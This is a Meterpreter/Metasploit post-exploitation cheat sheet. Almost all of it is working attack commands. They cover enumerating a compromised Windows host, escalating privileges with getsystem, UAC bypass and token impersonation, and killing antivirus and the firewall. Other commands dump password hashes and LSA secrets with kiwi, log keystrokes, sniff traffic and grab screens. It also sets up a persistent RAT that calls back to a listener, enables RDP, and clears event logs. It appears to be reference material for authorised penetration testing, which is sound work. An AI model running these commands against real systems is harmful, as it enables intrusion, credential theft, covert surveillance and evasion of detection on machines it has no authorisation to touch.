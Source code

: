
# Meterpreter
https://pentestmag.com/metasploit-cheat-sheet/
https://github.com/security-cheatsheet/metasploit-cheat-sheet

--------------------------------------------------------------------------

## Enumerate

- ### General

    - Get system info
    
          sysinfo
    
    - Get user info
    
          getuid

    - Enumerate privileges

          getprivs
          
    - Get environment variables
    
          getenv <env_variable>
    
    - Enumerate drives
    
          show_mount
    
    - List processes
    
          ps

- ### Windows

    - Enumerate privileges (Windows)
    
          use post/windows/gather/win_privs
    
    - Enumerate logged on users (Windows)
    
          use post/windows/gather/enum_logged_on_users
          
    - Enumerate installed applications (Windows)
    
          use post/windows/gather/enum_applications
    
    - Enumerate AV excluded paths (Windows)
    
          use post/windows/gather/enum_av_excluded
    
    - Enumerate other computers on the LAN (Windows)
    
          use post/windows/gather/enum_computers
    
    - Enumerate shares (Windows)
    
          use post/windows/gather/enum_shares

    - Enumerate installed patches (Windows)

          use post/windows/gather/enum_patches


--------------------------------------------------------------------------

--------------------------------------------------------------------------

## Privesc

- ### General

    - Migrate to process with higher privileges
    
          migrate <pid>
    
    - Attempt automated privesc
    
          getsystem
    	
    - Search for exploits for a session
    
          use post/multi/recon/local_exploit_suggester

    - Disable antivirus
    
          run killav

- ### Windows

    - Bypass UAC (Windows x64)
          
          search UAC
          use exploit/windows/local/bypassuac_injection
          <set options>
          run
          getsystem
    
    - Impersonate windows access tokens (Windows)

        - list tokens

              load incognito
              list_tokens -u

        - impersonate token

              impersonate_token <token>
              getuid          

    - Disable antivirus

          run post/windows/manage/killav
    
    - Disable windows firewall (Windows)
    
          shell
          netsh firewall set opmode mode=disable

--------------------------------------------------------------------------

## Loot

- ### General
- 
- Dump hashes

    - basic hash dump

          run hashdump
      
- Key logging

    - start

          keyscan start
	
    - view

          keyscan dump

- Sniffing packets

    - enable sniffer
	  
          use sniffer
	  
    - list interfaces
	
          sniffer_interfaces
	  
    - start sniffer

          sniffer_start <target_inteface> <#_of_packets> 
	  
    - dump sniffed traffic to pcap

          sniffer_dump <interface> <file.cap>

- ### Windows

    - Dump hashes

        - basic

              run post/windows/gather/smart_hashdump

        - mimikatz/Kiwi (Windows)
    
              load kiwi
              creds_all
              lsa_dump_sam
              lsa_dump_secrets

    - Screen grab
    
          use espia
          screengrab

--------------------------------------------------------------------------

## Persistence

- Persistance RAT

      run persistence -h
	
      run persistence -A -i 20 -p <listening_port>
      run persistence -U -i 20 -p <listening_port>

Next time we need to login and access the RAT, we only need to load up the Metasploit multi handler and set the parameters (LPORT 666, LHOST <Kali_IP>, and RHOST <Windows_IP>. We will also have to set the payload to the corresponding payload inside of a Metasploit handler from task one. If we were remote, we would use the portfwd command to port forward, but again that is out of scope. 

- Enable RDP (Windows)

      use post/windows/manage/enable_rdp

--------------------------------------------------------------------------

## Cleanup

- Clear logs

      clearev

--------------------------------------------------------------------------